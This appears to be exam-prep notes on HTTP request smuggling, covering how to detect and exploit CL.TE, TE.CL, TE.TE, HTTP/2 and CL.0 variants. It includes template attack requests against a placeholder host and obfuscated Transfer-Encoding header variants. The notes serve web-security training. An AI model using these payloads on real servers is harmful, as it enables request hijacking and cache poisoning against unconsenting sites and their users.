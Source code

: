 # HTTP Request Smuggling

## Types:

1. HTTP/1.1
    1. CL.TE
    2. TE.CL
    3. TE.TE
2. HTTP/2
   1. H2.CL
   2. H2.TE
3. Browser
   1. CL.0

---

## How to find each type:

1. HTTP/1.1
    1. CL.TE
       - [Using 404 response](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/training/http_req_smuggling_practice.md#confirming-clte-using-404)
    2. TE.CL
       - [Using 404 response](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/training/http_req_smuggling_practice.md#confirming-tecl-using-404)
    3. TE.TE
       - [Using invalid method GPOST](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/training/http_req_smuggling_practice.md#obfuscating-te)
2. HTTP/2
   1. H2.CL
    - Add `Content-Length: 0` to the request
   2. H2.TE
    - Add `Transfer Encoding: Chunked` to the request
    - Then add a 0 before the second request
3. Browser
   1. CL.0
   - When performing the attack, if the response to the follow-up request is normal, then the endpoint is not vulnerable

 ---

## How to exploit each type:

1. HTTP/1.1
    1. CL.TE
       ```
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Length: 13               --> Content length is 13 which includes smuggled
       Transfer-Encoding: chunked    

       0  --> Since it is chunked the 0 terminates the first request, sending smuggled to the backend

       SMUGGLED               
       ```
    2. TE.CL
         ```
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Length: 3               --> Content length is 3 which includes the 8
       Transfer-Encoding: chunked    

       8  --> This is the length of the following request
       SMUGGLED
       0   --> Needs to end in /r/n/r/n
       ```
    3. TE.TE
       - You need to obfuscate the Transfer-Encoding header so that one server does not process it
        ```
        Transfer-Encoding: xchunked
        Transfer-Encoding : chunked
        Transfer-Encoding: chunked
        Transfer-Encoding: x
        Transfer-Encoding:[tab]chunked
        [space]Transfer-Encoding: chunked
        X: X[\n]Transfer-Encoding: chunked
        Transfer-Encoding
        : chunked
2. HTTP/2
   1. H2.CL
    ```
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 0               --> Which tells the backend that smuggled is a second request

   SMUGGLED               
   ```
   2. H2.TE
      ```
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Type: application/x-www-form-urlencoded
       Transfer-Encoding: chunked    
    
       0  --> Since it is chunked the 0 terminates the first request, sending smuggled to the backend
    
       SMUGGLED               
       ```
3. Browser
   1. CL.0
   - Create one tab containing the setup request and another containing an arbitrary follow-up request.
   - Add the two tabs to a group in the correct order.
   - Using the drop-down menu next to the Send button, change the send mode to Send group in sequence (single connection).
   - Change the Connection header to keep-alive.
   - Send the sequence and check the responses.

---

## Other important notes:
- HTTP/1.1 allows for content-length transfer-encoding
- Some servers that do support the Transfer-Encoding header can be induced not to process it if the header is obfuscated in some way.
- HTTP/2 is only vulnerable if the backend supports HTTP/1.1
- You need to manually switch the protocol in repeater
- [Hidden HTTP/2 support](https://portswigger.net/web-security/request-smuggling/advanced)
